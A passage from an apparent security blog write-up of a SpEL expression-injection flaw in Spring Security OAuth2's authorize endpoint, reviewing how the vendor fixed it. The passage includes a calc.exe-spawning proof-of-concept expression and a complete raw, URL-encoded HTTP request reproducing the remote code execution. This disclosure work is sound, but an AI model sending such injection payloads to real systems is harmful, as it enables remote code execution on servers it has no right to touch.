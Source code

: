 
| ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgBRxeuEyK1xwqLTgdDIig_VdsmEXGIMU-LEc2sW9Yaajyh8hS7Sv83fPZDkywg5OZLXRwNZOQWMXJv2L_fjQwwH4z1scj71gmVB7vmcFCdFFpcAJJYrWBkev9bhGJN_5O6y88BdzyAvO8Q/s640/spel1.png) |
| --- |
| Pushing the probe value ${1338-1} |

  
A second test was made using the expression "${T(java.lang.Runtime).getRuntime().exec("calc.exe")}" to verify that the expressions are not limited to simple arithmetic operations.  
  

| ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEguUEbrAlV3kvr9fkscJPJfiqZDa5L-iOJonbTGMoeMfhC6E-HUA9tq1ayX5vBFWTYrs15cfx9QajcIwBtuOmpshdW6j5FmI1mlc1gst5grv8qoFTM1I7EbwyY9qeg7Dmj8MTJ3peC7h-Sf/s640/spel2.png) |
| --- |
| Simple proof-of-concept request spawning a calc.exe subprocess |  |     |

  
For easier reproduction, here is the raw HTTP request from the previous screenshot. Some characters - mainly curly brackets - were not supported by the web container and needed to be URL encoded in order to reach the application. { -> %7b  

```
POST /oauth/authorize?response_type=code&client_id=client&username=user&password=user&grant_type=password&scope=%24%7bT(java.lang.Runtime).getRuntime().exec(%22calc.exe%22)%7d&redirect_uri=http://csrf.me HTTP/1.1
Host: localhost:8080
Authorization: Bearer 1f5e6d97-7448-4d8d-bb6f-4315706a4e38
Content-Type: application/x-www-form-urlencoded
Accept: */*
Content-Length: 0

```

  

## Reviewing The Fix

  
The solution chosen by the Pivotal team was to replace SpelView with a simpler view, with basic concatenation. This eliminates all possible paths to a SpEL evaluation. The first patch proposed introduced a potential XSS vulnerability, but luckily this was spotted before any release was made. The scope values are now properly escaped and free from any injection.  
More importantly, this solution improved the security of another endpoint: WhitelabelErrorEndpoint. The endpoint is also no longer uses a Spel View. It was found vulnerable to an identical attack vector in 2016. Spring-OAuth2 also used the SpelView class to build the error page. The interesting twist is that the template parameter was static, but the parameters bound to the template were evaluated recursively. This means that any value in the model could lead to a Remote Code Execution.  


  

| ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiHy1IXpBgx3yAlvswwBeLhsmF7VU77wo4FkiFgg5hoJWrbkqGkLMMERGVGO4DdmDMr7hLMK7Up08o9dwiqZnMbcV1ZXZFUFZ99lXL8pv0_aaEDDswA3D3LjObDx-ByWvhMljWf68SYr1vH/s640/spel3.png) |
| --- |
| Example with simple values |

| ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjYD0JjXRcdRQu6Zy0UZTJDtjWZmKwYankzZOsFdntImLl46W9V3lwHMhxRtgkDQH9IyK7Tzjk2TVqV8-b4SYVd9b4UYAONoPGSoO9qe8d4o1VL6rAtNnTD7_eFUMxCbK-nRqpDly9ctySk/s640/spel4.png) |
| --- |
| Example with an expression included in the model |

